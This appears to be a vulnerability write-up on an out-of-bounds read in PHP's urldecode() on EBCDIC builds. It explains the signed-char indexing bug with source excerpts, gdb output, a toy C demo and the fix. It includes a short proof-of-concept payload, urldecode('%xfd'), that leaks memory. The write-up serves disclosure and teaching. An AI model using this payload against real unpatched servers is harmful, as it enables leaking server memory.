

# Out-of-Bounds read in ``urldecode()``

## Details
* **Description**: "*In PHP versions 7.2.x below 7.2.30, 7.3.x below 7.3.17 and 7.4.x below 7.4.5, if PHP is compiled with EBCDIC support, ``urldecode()`` function can be made to access locations past the allocated memory, due to erroneously using signed numbers as array indexes.*" - In other words, if you type a negative hex value in a system with EBCDIC encoding enabled, you'll be able to leak memory ✨

* **CVSS3 Score**: 7.5 high

## Impact / Threat
This bug requires the vulnerable server to enable EBCDIC encoding, so it mainly affects Mainframe systems(yuck!) **and** possibly some flavors of IBM Cloud Instances which runs PHP (IBM created this encoding so they have support in their cloud environment environment as well. It was found to be enabled in cloud "flavors" such as *Linux z/OS*. References: [[#1]](https://cloud.ibm.com/docs/runtimes/php?topic=PHP-getting_started), [[#2]](https://www.ibm.com/support/knowledgecenter/zosbasics/com.ibm.zos.zappldev/zappldev_14.htm), [[#3]](https://www.ibm.com/support/knowledgecenter/SSLTBW_2.1.0/com.ibm.zos.v2r1.gxla100/encodesupport.htm)). 
 

## The bug / Exploitation

This is the source code of ``urldecode()``:

[ext/standard/url.c](http://git.php.net/?p=php-src.git;a=blob;f=ext/standard/url.c;h=fe6d7f9de1d69eaafd577518d92d899feb7145b0;hb=fe6d7f9de1d69eaafd577518d92d899feb7145b0#l548) @ line 548

```c
/* {{{ php_url_decode
 */
PHPAPI size_t php_url_decode(char *str, size_t len)
{
	char *dest = str;
	char *data = str;

	while (len--) {
		if (*data == '+') {
			*dest = ' ';
		}
		else if (*data == '%' && len >= 2 && isxdigit((int) *(data + 1))
				 && isxdigit((int) *(data + 2))) {
#ifndef CHARSET_EBCDIC
			*dest = (char) php_htoi(data + 1);
#else
			*dest = os_toebcdic[(char) php_htoi(data + 1)];
#endif
			data += 2;
			len -= 2;
		} else {
			*dest = *data;
		}
		data++;
		dest++;
	}
	*dest = '\0';
	return dest - str;
}

```

If  ``CHARSET_EBCDIC`` is defined (usually, on systems with EBCDIC encoding support), an Out-of-Bounds Read can occur.

Let's focus on the relevant parts of the function:
```c
PHPAPI size_t php_url_decode(char *str, size_t len)
{
	char *dest = str;
	char *data = str;
/*...more code...*/

#ifndef CHARSET_EBCDIC
			*dest = (char) php_htoi(data + 1);
#else
			*dest = os_toebcdic[(char) php_htoi(data + 1)]; // <--- oob read here
#endif

/* ... more code ... */
```
* ``os_toebcdic[256]`` is an array(or a map, i assume) used for decoding purposes. 
* To convert the string input into hex values, PHP uses ``php_htoi()`` and then convert the result into a signed byte(char).
* This signed number is then provided as an index to the ``os_toebcdic[]`` array. 
* There will be no OOB Read after the buffer because the max value of a byte is 0xff (==256), which is the same size as the ``os_toebcdic[]`` 
* However, the casting (in the second bullet) is done to a ``char`` and not an ``unsigned char``, which means that we can insert **negative hex values** to leak values that are found in the memory **BEFORE** our buffer. 


payload:
```php
<?
urldecode('%xfd'); //0xfd == -3, could be 0x80 for bigger OOB (which is -128 in dec, this is the minimum value of a signed byte. b10000000) 
?>
```

in gdb:

```
gdb-peda$ call php_htoi(data+1)
$42 = 0xfd

gdb-peda$ p/d (char)$42
$43 = -3
```
The array index is negative an memory will be leaked via the returned value of PHP's ``urldecode()`` 

## Understanding the Concept 

Let's take the following example program:
```c
#include<stdio.h>

int main()
{
        char text[255] = "ABCD";
        char buf[] = "QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ"; // not used in the program

        char c = 0xfc;  // signed char, can contain negative values (from -128 to 255)

        printf("%x", text[c]); // text[-3]
        return 0;
}
```

We are using ``c`` as an index specifier to ``text`` and print the value in hex.

The expected output will be a character from the ``text[]`` array, maybe A(``0x41``) or B(``0x42``), or maybe C(``0x43``), etc. Even if the attacker will manage to read **after** ``D``, he will not be able to read the contents of what is after ``text[255]`` in memory (because the maximum size of ``char c`` is 255). So what do we do? insert a negative value :D

The actual output is: ``0x51``, which is Q, and belongs to anohter variable in the program (``buf``).
It happens when an array index specifier is set to a negative value. In our case, ``c`` was set to ``0xfc`` (which is ``-3`` in dec)

In the following hexdump, you can see that ``buf`` is found right before our ``text[]`` array in the memory:
```
gdb-peda$ hexdump &buf

+0000 0xbffff4c5  51 51 51 51  51 51 51 51  51 51 51 51  51 51 51 51  │QQQQ│QQQQ│QQQQ│QQQQ│
...
+0020 0xbffff4e5  51 51 51 51  51 51 51 51  51 51 00 41  42 43 44 00  │QQQQ│QQQQ│QQ.A│BCD.│
+0030 0xbffff4f5  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │....│....│....│....│
pwndbg>
+0040 0xbffff505  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │....│....│....│....│
...
```

Hence, we jumped "backwards" when we inserted negative values in the array index specifier.

## The Fix

The PHP Development team turned the array index specifier to be an ``unsigned char`` to avoid negative values in array index specifiers. 

Same issue was found in ``php_raw_url_decode``

The commit: http://git.php.net/?p=php-src.git;a=blobdiff;f=ext/standard/url.c;h=1dd073e2bb423652821f351135b9582d76e175d5;hp=fe6d7f9de1d69eaafd577518d92d899feb7145b0;hb=9d6bf8221b05f86ce5875832f0f646c4c1f218be;hpb=14fcc813948254b84f382ff537247d8a7e5e0e62




>Original report #79465: https://bugs.php.net/bug.php?id=79465&edit=2